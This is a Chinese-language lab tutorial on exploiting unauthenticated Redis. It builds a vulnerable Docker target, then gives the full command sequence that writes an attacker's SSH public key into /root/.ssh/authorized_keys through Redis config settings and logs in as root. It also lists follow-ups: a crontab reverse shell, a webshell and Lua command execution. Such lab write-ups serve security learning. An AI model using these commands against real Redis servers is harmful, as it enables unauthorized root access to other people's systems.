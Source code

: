 # redis 未授权访问

## 环境搭建

被攻击环境创建：  
创建虚拟机  
`docker run -tid -p 2222:22 -p 6379:6379 ubuntu`  
安装ssh，redis，vim
`apt-get update`  
`apt-get install open-ssh-server`  
`service ssh start`  
`mkdir /root/.ssh`  
`apt-get install redis`  
`apt-get install vim`  
修改如下配置，使redis可远程访问  
`vim /etc/redis/redis.conf`  
`# blnd 127.0.0.1`

以非保护模式启动redis  
`redis-server  --protected-mode no`  

注意：  
这里kali要设置成桥接，否则ssh连接出错。我的被攻击机也是桥接进网络中的docker虚拟机，和实际环境有关系  
连接的端口是 2222  

攻击机：kali  
`apt-get install  redis`  
生成ssh key  
`ssh-keygen -t rsa`  
进入.ssh目录。将生成的目录保存到 kitty.txt  
`cd .ssh`
`(echo -e "\n\n";cat id_rsa.pub; echo -e "\n\n") > kitty.txt`  
将kitty.txt写入redis(使用redis-cli -h IP命令连接主机A，将文件写入)  
`cat kitty.txt | redis-cli -h 192.168.3.35 -x set crack`  
远程登陆redis命令  
`redis-cli -h 192.168.3.35`  
获得当前备份路径的命令  
`config get dir`  
设置备份路径的命令  
`config set dir /root/.ssh`  
设置上传公钥的备份文件名字为 authorized_keys  
`192.168.3.35:6379> config set dbfilename authorized_keys`  
`OK`  
检查是否更改成功(查看有没有authorized_keys文件)，没有问题就保存然后退出，至此，我们成功地写入ssh公钥到靶机上

``` shell
192.168.3.35:6379> config get dbfilename
1) "dbfilename"
2) "authorized_keys"
192.168.3.35:6379> save
OK
192.168.3.35:6379> exit
```

ssh免密登陆  
`ssh -i id_rsa -p 2222 root@192.168.3.35`

后续  
在crontab里写定时任务，反弹shell  
在web目录下写入webshell  
利用redis执行命令：redis 2.6以前的版本内置了lua脚本环境，在有连接redis服务器的权限下，可以利用lua执行系统命令。

### 参考

https://www.cnblogs.com/ECJTUACM-873284962/p/9561993.html  
https://blog.csdn.net/guxiaoguo/article/details/78913245